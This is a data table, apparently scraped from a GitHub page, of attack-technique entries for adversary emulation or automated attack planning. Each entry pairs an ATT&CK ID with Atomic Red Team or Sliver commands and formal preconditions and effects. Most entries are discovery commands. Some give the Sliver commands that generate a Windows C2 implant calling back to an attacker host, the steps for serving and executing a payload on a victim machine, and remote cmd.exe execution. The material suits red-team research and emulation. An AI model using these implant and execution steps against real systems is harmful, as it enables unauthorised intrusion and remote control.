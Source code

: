| 1b0814d1-bb24-402d-9615-1b20c50733fb | Network Share Discovery PowerShell | \['T1135'\] | ART | \['windows'\] | \['Discovery'\] | \['Network Share Discovery'\] | Network Share Discovery utilizing PowerShell. The computer name variable may need to be modified to point to a different host<br>Upon execution, avalaible network shares will be displayed in the powershell session<br> | {'executor': 'Powershell Executor', 'command': 'get-smbshare\n'} | None | \['(powershell ?executor - executor ?target - host)', '(os_windows ?target - host)'\] | \['(network_share_info_known ?target - host)'\] |
| 877d3366-eab3-4f43-bd24-26b37eb70266 | Remote Processes List | \['T1057'\] | Sliver | \['windows', 'linux', 'macos'\] | \['Discovery'\] | \['Process Discovery'\] | The `ps` command lists all running processes on a remote system. It returns a list of processes with details such as the process ID (PID) and executable name. The command includes flags for exe, overflowing terminal width, filtering based on owner/pid, printing command line arguments, skipping the first n page(s), printing process tree and setting outtime. | {'executor': 'Sliver Executor', 'command': 'ps(#{SessionID})'} | {'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \[{'operator': 'or', 'operands': \['(os_windows ?t - host)', '(os_linux ?t - host)', '(os_macos ?t - host)'\]}, '(sliver_session ?s - executor ?t - host)'\] | \['(processes_info_known ?t - host)'\] |
| 1a9c0b5e-9a8b-2d3c-5f1e-4a7cb6d42e8f | Host Availability Check | \['T1018'\] | Sliver | \['windows', 'linux'\] | \['Discovery'\] | \['Remote System Discovery'\] | The `ping` command tests network connectivity to the target host. | {'executor': 'Sliver Executor', 'command': 'ping (#{SessionID})'} | {'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \[{'operator': 'or', 'operands': \['(os_windows ?target - host)', '(os_linux ?target - host)'\]}, '(sliver_session ?executorID - executor ?target - host)'\] | \['(host_connectivity_verified_info_known ?target - host)'\] |
| 3b3809b6-a54b-4f5b-8aff-cb51f2e97b34 | Process Discovery - Get-Process | \['T1057'\] | ART | \['windows'\] | \['Discovery'\] | \['Process Discovery'\] | Utilize Get-Process PowerShell cmdlet to identify processes.<br><br>Upon successful execution, powershell.exe will execute Get-Process to list processes. Output will be via stdout. <br> | {'executor': 'Powershell Executor', 'command': 'Get-Process\n'} | None | \['(powershell ?executor - executor ?target - host)', '(os_windows ?target - host)'\] | \['(process_info_known ?target - host)'\] |
| 0e67b73a-9927-43e1-8f64-04d38f1db57d | Build the executable file of a Sliver implant (for Windows) | \['T1071.001'\] | Manual | \['windows'\] | \['Command and Control'\] | \['Application Layer Protocol - Web Protocols'\] | The command is used in the Sliver C2 (Command and Control) framework to generate a payload designed for remote access to a target machine.<br> | {'executor': 'Sliver Console', 'command': 'sliver > generate --mtls #{LHOST}:#{LPORT} --os windows --arch 64bit --format exe --save #{SAVE_PATH}\nsliver > mtls --lport #{LPORT}\n'} | {'LHOST': {'default': None, 'description': 'IP address of the attacker machine', 'type': None}, 'LPORT': {'default': None, 'description': 'listening port of the attacter machine', 'type': None}, 'SAVE_PATH': {'default': None, 'description': 'Saved path of the generated payload', 'type': None}} | \['(os_windows ?target - host)', '(unallocated ?p - payload)', '(unallocated ?file - file)'\] | \['(sliver_implant_payload ?p - payload ?target - host)', '(file_payload ?p - payload ?file - file)', '(file_prepared_local ?file - file)', '(exe_file ?file - file)', '~(unallocated ?p - payload)', '~(unallocated ?file - file)'\] |
| 4a31f8db-89db-4f16-baab-47bb3f9d5b8a | Simulate the victim download and execute malicious payload file | \['T1204.002'\] | Manual | \['windows', 'linux'\] | \['Execution'\] | \['User Execution: Malicious File'\] | None | {'executor': 'Human', 'command': "(This step needs human interaction and (temporarily) cannot be executed automatically)\n(On attacker's machine)\npython -m http.server\n\n(On victim's machine)\n1. Open #{LHOST}:#{LPORT} in the browser\n2. Navigate to the path of the target payload file\n3. Download the payload file\n4. Execute the payload file to #{PATH} (If on a Linux machine, you also need to chmod the file)\n"} | {'LHOST': {'default': None, 'description': 'IP address of the attacker machine', 'type': None}, 'LPORT': {'default': None, 'description': 'listening port of the attacter machine', 'type': None}, 'SAVE_PATH': {'default': None, 'description': 'Saved path of the downloaded payload', 'type': None}} | \['(file_prepared_local ?file - file)', {'operator': 'or', 'operands': \['(exe_file ?file - file)', '(elf_file ?file - file)'\]}\] | \['(file_exists ?path - path ?file - file ?t - host)', '(file_executed ?file - file ?t - host)'\] |
| 2074d817-7819-401b-b552-1045672f77f3 | Execute Command (cmd.exe) | \['T1059.003'\] | Sliver | \['windows'\] | \['Execution'\] | \['Command and Scripting Interpreter: Windows Command Shell\n'\] | The `cmd.exe` command executes a Windows command. It runs the specified command on the remote host and returns the result. This command is useful for performing various system tasks. | {'executor': 'Sliver Executor', 'command': 'cmd(#{SessionID},#{Commands})'} | {'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \['(os_windows ?t - host)', '(sliver_session ?s1 - executor ?t - host)'\] | \['(command_prompt ?s2 - executor ?t - host)', {'operator': 'When', 'params': {'condition': '(elevated_executor ?s1 - executor)', 'effect': '(elevated_executor ?s2 - executor)'}}\] |